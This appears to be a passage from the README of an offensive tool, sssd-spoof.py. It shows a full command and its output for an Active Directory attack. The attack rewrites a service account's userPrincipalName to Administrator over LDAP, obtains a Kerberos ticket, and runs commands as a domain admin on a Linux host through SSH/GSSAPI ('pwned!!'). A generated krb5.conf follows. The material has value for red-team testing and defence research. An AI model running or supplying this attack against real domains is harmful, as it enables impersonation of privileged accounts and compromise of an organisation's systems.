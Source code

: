## KDC Host

In order for SSH to properly authenticate using the `GSSAPI` mechanism, you need to ensure that you have a valid `krb5.conf` configuration file. This is done for you if the `-dc` option is specified.

```
~$ sssd-spoof.py 'mercury.local'/'gatari':'P@ssw0rd'@L-MGRT-APP001.mercury.local --target-user 'svc_sql' --target-password 'P@ssw0rd123' -dc 'C-DC01.mercury.local' --upn 'Administrator@mercury.local' -x 'id && hostname'
[*] Impacket v0.13.0.dev0+20250713.182712.930296c - Copyright Fortra, LLC and its affiliated companies 

[*] LDAP Bind => mercury.local\gatari @ ldap://mercury.local:389
[*] OK: userPrincipalName svc_sql@mercury.local => Administrator@mercury.local
[*] saved TGT to Administrator\@mercury.local.ccache
[*] trying: L-MGRT-APP001.mercury.local
[*] pwned!!

uid=7000500(administrator@mercury.local) gid=7000513(domain users@mercury.local) groups=7000513(domain users@mercury.local),7000512(domain admins@mercury.local),7000518(schema admins@mercury.local),7000519(enterprise admins@mercury.local),7000520(group policy creator owners@mercury.local),7000572(denied rodc password replication group@mercury.local)
L-MGRT-APP001.mercury.local

[*] connection closed.

[*] LDAP Bind => mercury.local\gatari @ ldap://mercury.local:389
[*] OK: userPrincipalName Administrator@mercury.local => svc_sql@mercury.local
```

This will save the resultant file to `./krb5.conf`:

```
~$ cat krb5.conf -p
[libdefaults]
    default_realm = MERCURY.LOCAL
    dns_lookup_realm = false
    dns_lookup_kdc = false

[realms]
    MERCURY.LOCAL = {
        kdc = c-dc01.mercury.local
        admin_server = c-dc01.mercury.local
        default_domain = mercury.local
    }

[domain_realm]
    .mercury.local = MERCURY.LOCAL
    mercury.local = MERCURY.LOCAL

```
